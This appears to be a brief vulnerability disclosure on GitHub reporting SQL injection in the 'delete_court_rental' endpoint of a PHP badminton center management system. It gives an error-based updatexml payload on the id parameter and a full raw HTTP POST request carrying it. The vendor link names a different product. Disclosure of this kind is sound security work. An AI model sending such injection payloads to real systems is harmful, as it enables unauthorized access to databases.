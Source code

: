 # badminton-center-management-system v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Date: 2022-05-06

Vulnerability File: /bcms/classes/Master.php?f=delete_court_rental

Vulnerability location: /bcms/classes/Master.php?f=delete_court_rental, id

[+] Payload: id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

Tested on Windows 10, XAMPP

```
POST /bcms/classes/Master.php?f=delete_court_rental HTTP/1.1
Host: bcms.com
Proxy-Connection: keep-alive
Content-Length: 65
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://bcms.com
Referer: http://bcms.com/bcms/admin/?page=court_rentals
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=4gth9auqof3f53e4gedjm3dct2

id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/sql.gif?raw=true)
